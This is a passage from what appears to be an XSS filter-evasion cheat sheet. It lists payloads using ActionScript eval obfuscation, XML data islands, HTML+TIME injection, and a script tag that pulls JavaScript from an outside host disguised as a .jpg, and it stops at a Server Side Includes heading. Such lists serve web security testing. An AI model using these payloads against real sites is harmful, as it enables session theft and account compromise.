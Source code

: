 ## Using ActionScript inside flash can obfuscate your XSS vector

    `a="get";`  
    `b="URL(\"";`  
    `c="javascript:";`  
    `d="alert('XSS');\")";`  
    `eval(a+b+c+d);`

## XML data island with CDATA obfuscation

This XSS attack works only in IE and Netscape 8.1 in IE rendering engine
mode) - vector found by Sec Consult while auditing Yahoo:

    `<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>`  
    `<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>`

## Locally hosted XML with embedded JavaScript that is generated using an XML data island

This is the same as above but instead referrs to a locally hosted (must
be on the same server) XML file that contains your cross site scripting
vector. You can see the result here:

    `<XML SRC="xsstest.xml" ID=I></XML>`  
    `<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>`

## HTML+TIME in XML

This is how Grey Magic hacked Hotmail and Yahoo\!. This only works in
Internet Explorer and Netscape 8.1 in IE rendering engine mode and
remember that you need to be between HTML and BODY tags for this to
work:

    `<HTML><BODY>`  
    `<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">`  
    `<?import namespace="t" implementation="#default#time2">`  
    `<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">`  
    `</BODY></HTML>`

## Assuming you can only fit in a few characters and it filters against ".js"

you can rename your JavaScript file to an image as an XSS vector:

    `<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>`

## SSI (Server Side Includes)

This requires SSI to be installed on the server to use this XSS vector.
I probably don't need to mention this, but if you can run commands on
the server there are no doubt much more serious issues:
